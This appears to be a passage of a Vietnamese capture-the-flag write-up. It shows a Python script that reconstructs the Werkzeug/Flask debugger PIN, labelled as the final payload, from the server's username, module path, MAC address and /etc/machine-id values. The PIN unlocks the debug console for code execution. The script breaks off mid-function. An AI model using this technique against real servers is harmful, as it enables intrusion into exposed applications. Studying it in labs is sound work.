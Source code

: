 ![alt text](image-38.png)
- Bây Giờ thực hiện tải trọng cuối cùng:
``` python
import hashlib
from itertools import chain
probably_public_bits = [
    'root',  # username
    'flask.app',  # modname
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.8/site-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
    '135027807911175',  # str(uuid.getnode()),  /sys/class/net/ens33/address
    'a0a129b6-a505-498d-ae00-b06b36834d23'  # get_machine_id(), /etc/machine-id
]
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
```